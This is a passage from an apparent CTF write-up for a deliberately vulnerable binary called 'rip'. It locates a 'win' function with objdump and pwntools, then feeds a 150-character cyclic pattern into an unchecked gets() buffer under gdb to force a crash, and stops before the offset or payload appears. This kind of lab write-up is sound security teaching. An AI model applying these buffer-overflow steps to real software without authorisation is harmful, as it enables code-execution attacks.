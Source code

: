 ```bash
$ objdump -t rip | grep F
0000000000401190 l     F .text  0000000000000000              deregister_tm_clones
00000000004011c0 l     F .text  0000000000000000              register_tm_clones
# ...abbreviated
00000000004012f4 g     F .text  0000000000000017              win
0000000000401180 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
0000000000401150 g     F .text  000000000000002f              _start
000000000040130b g     F .text  000000000000007a              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
00000000004012ce g     F .text  0000000000000026              ignore_me_init_signal
0000000000401000 g     F .init  0000000000000000              .hidden _init
```

Address of the `win`-method is `0x4012f4` as seen using `objdump`.

We can also get the address in our `Python`-script using `pwntools` like this:

```python
elf = ELF("./rip")
addr_win = elf.symbols['win']
print(f"{addr_win:X}")
```

Now we need to perform a buffer overflow on the `gets`-call. That way we can find the offset we need to place the address of the `win`-method on the stack.


## Buffer Overflow & Finding The Exploit Offset

```c
char lol[100];
```

The buffer in the program has a length of `100`. Let's create a `cyclic` pattern of `150` chars:

```bash
$ cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

Now let's run the program in `gdb` and have a look:

```bash
$ gdb rip
GNU gdb (Debian 10.1-2+b1) 10.1.90.20210103-git
gef➤

gef➤  r
Starting program: /home/hag/ctf-equinor-22/educational-rip/rip-handout/rip
Enter password
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

We get a `SIGSEGV` as expected and we can see that the stack is overwritten with our `cyclic` pattern:
